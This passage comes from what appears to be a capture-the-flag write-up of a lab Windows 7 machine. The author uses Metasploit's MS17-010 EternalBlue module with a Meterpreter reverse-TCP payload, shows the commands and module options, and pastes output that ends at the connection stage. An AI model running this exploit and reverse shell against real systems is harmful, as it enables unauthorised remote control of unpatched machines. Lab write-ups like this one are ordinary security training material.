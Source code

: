 
`4` is a scanner, and `5` is using a backdoor that must already be on the
system, so they are out. `1` is specifically for Win8, which is not this
system. `3` is auxiliary, though it says command execution, so I don’t want to
rule it out, but I’ll put it last. That leaves `0` and `2`.

I’ll try `0`:

    
    
    msf6 > use 0
    [*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
    msf6 exploit(windows/smb/ms17_010_eternalblue) >
    

I’ll set the target and my local IP, and the rest of the options look good:

    
    
    msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 10.10.10.40
    RHOSTS => 10.10.10.40
    msf6 exploit(windows/smb/ms17_010_eternalblue) > set lhost 10.10.14.14
    lhost => 10.10.14.14
    msf6 exploit(windows/smb/ms17_010_eternalblue) > options
    
    Module options (exploit/windows/smb/ms17_010_eternalblue):
    
       Name           Current Setting  Required  Description
       ----           ---------------  --------  -----------
       RHOSTS         10.10.10.40      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
       RPORT          445              yes       The target port (TCP)
       SMBDomain      .                no        (Optional) The Windows domain to use for authentication
       SMBPass                         no        (Optional) The password for the specified username
       SMBUser                         no        (Optional) The username to authenticate as
       VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
       VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.
    
    
    Payload options (windows/x64/meterpreter/reverse_tcp):
    
       Name      Current Setting  Required  Description
       ----      ---------------  --------  -----------
       EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
       LHOST     10.10.14.14      yes       The listen address (an interface may be specified)
       LPORT     4444             yes       The listen port
    
    
    Exploit target:
    
       Id  Name
       --  ----
       0   Windows 7 and Server 2008 R2 (x64) All Service Packs
    

Running it returns a shell as SYSTEM:

    
    
    msf6 exploit(windows/smb/ms17_010_eternalblue) > run
    
    [*] Started reverse TCP handler on 10.10.14.14:4444 
    [*] 10.10.10.40:445 - Executing automatic check (disable AutoCheck to override)
    [*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
    [+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
    [*] 10.10.10.40:445       - Scanned 1 of 1 hosts (100% complete)
    [+] 10.10.10.40:445 - The target is vulnerable.
    [*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
    [+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
    [*] 10.10.10.40:445       - Scanned 1 of 1 hosts (100% complete)
    [*] 10.10.10.40:445 - Connecting to target for exploitation.
    [+] 10.10.10.40:445 - Connection established for exploitation.